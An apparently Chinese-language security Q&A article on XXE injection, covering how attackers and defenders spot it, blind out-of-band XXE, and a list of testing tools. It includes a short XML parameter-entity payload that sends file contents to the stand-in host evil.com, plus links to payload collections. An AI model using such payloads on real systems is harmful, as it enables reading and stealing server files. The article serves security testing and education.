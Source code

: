 #### **如何甄别一个XML实体攻击漏洞？**

对于攻击方而言，想要甄别应用系统是否存在XXE注入漏洞，在前面的挖掘思路部分就已经提到过了，不过为了照顾刚入门的小伙伴，只给出了常规的测试流程，这里我们可以再稍微展开聊一下：

通过分析漏洞原理可以知道，XML解析器对于DTD和实体的解析是很靠前的，而且遇到引用就实时求值，所以XML文件在解析过程中出现异常导致解析失败，XXE注入漏洞也可能被触发。

在测试是否支持实体解析之前，我们可以参考SQL注入测试中的真假测试，利用主动报错 *（构造畸形XML文档）* 等方式来判断应用程序是否支持对XML文档格式数据的解析。在没有回显、报错或异常响应时，使用XXE盲注则会是一种比较省心的测试方案。

有一些Web应用服务器和框架为了兼容不同的请求数据格式，会根据Content-Type等标识来解析数据封装请求参数对象。也许表面上看到的`a=1&b=2`，改写成XML后流程也能正常执行。Who knows，在测试的时候多开一些脑洞，说不定会发现这些隐藏的攻击面。

对于防守方而言，其实大部分的业务需求都不需要使用到XML外部实体，因此在请求数据包中出现XML外部实体声明，就值得进一步对请求方的行为进行审计分析，大致筛选出是否遭受了XXE注入攻击。

#### **利用XXE注入漏洞读取任意文件，在没有回显的情况下，如何读取？其实就是想了解一下Blind XXE。**

对于XML来说，XXE属于标准语法，所以只需要在实体的声明、引用，以及它的URI属性上做文章。

在回显内容受到限制的情况下，我们很容易想到利用OOB技术进行XXE盲注，通过向攻击服务器产生HTTP、DNS日志等方式将数据带出来。

我们需要将读取文件的实体声明为一个参数实体，然后利用XML解析器的解析顺序，实现将该参数实体引入得到的文件内容附加至请求数据中，需要注意的是参数实体引用位置的限制问题：

```xml
<!ENTITY % a "<!ENTITY &#x25; b SYSTEM 'http://evil.com/%data;'>">
%a; %b;
```

为什么`%b;`外要加一层`%a;`？因为`%data;`需要经过一次额外的解析求值，如果直接在外部实体的URI属性中使用，它将变成一个普通的字符串。

下面这个gist中列出了一部分可以用于XXE盲注和OOB的Payload：

https://gist.github.com/staaldraad/01415b990939494879b4

#### **有哪些好用的工具可以检测XXE注入漏洞？**

- XXE注入Payload在线生成工具
    https://buer.haus/xxegen/
- 生成XXE注入测试文件
    https://github.com/BuffaloWill/oxml_xxe/
- XXE盲注轻量级服务
    https://github.com/staaldraad/xxeserv/
- Java应用XXE注入漏洞检测工具
    https://github.com/ssexxe/XXEBugFind/